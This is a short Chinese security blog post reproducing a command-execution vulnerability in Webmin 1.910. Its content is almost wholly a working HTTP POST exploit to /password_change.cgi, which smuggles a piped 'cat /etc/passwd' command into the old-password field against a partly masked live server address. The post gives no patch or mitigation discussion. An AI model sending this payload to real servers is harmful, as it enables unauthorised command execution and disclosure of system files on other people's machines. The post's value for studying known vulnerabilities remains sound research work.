 ```yaml
---
layout: post
title: "webmin_CMS命令执行漏洞复现"
subtitle: "webmin_CMS命令执行漏洞复现"
date: 2019-08-19
author: ppbibo
category: security
finished: true
---
```

[TOC]

## 正文

看到群里表哥曝出 webmin CMS 命令执行漏洞，所以复现下。

**version： Webmin 1.910**

```http
POST /password_change.cgi HTTP/1.1

Host: 107.**.**.**:30000

Referer: https://107.**.**.**:30000/sesss.cgi

Content-Type: application/x-www-form-urlencoded

Content-Length: 73

user=demo&pam=&expired=2&old=test | cat /etc/passwd&new1=test2&new2=test2
```



**RT：**

![webmin](/static/img/webmin.png)


------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***



